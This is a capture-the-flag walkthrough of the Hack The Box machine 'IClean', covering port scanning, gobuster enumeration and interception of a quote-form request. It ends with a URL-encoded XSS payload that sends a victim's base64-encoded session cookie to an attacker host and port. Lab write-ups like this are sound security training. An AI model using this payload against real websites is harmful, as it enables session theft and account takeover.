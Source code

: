 We find two open ports 22 (SSH) and 80 (HTTP - Apache)

We get redirected to `capiclean.htb` when trying to access the web server. We need to add it to the `/etc/hosts` file to access the website.

```
sudo echo "10.10.11.12 capiclean.htb" | sudo tee -a /etc/hosts
```

## Enumeration

The web application is a cleaning service. 

![IClean website](/images/HTB-IClean/capiclean.png)

After looking around we found two functionalities that we may be able to exploit. 

* `http://capiclean.htb/quote` (using the `GET A QUOTE` button) leads us to a form where we can select which services we desire and also input an email address.

![capiclean quote](/images/HTB-IClean/capiclean-quote.png)

After submitting an email address we get to `http://capiclean.htb/sendMessage`.

![capiclean quote thank you message](/images/HTB-IClean/capiclean-quote2.png)

* `http://capiclean.htb/login` leads to a login form with the usual username:password credentials.

![capiclean login](/images/HTB-IClean/capiclean-login.png)

Running gobuster we find  `/dashboard` but we get redirected to the Home page when we try to access it probably because we don't have a valid cookie.

```
gobuster dir -u http://capiclean.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![directory brute forcing](/images/HTB-IClean/gobuster.png)

We intercept the request we get after submitting the email at `/quote`, since there is a login feature but no sign in it button let's try to steal a session cookie in order to gain access the other pages.

![Request intercepted](/images/HTB-IClean/quote-request.png)

Now we use our payload before sending the request.

![XSS cookie steal](/images/HTB-IClean/XSS-cookie-steal.png)

**XSS Payload**

```
<img+src%3dx+onerror%3dthis.src%3d"http%3a//<IP_ADDRESS>%3a<PORT_NUMBER>/cookie.php"%2bbtoa(document.cookie)>
```
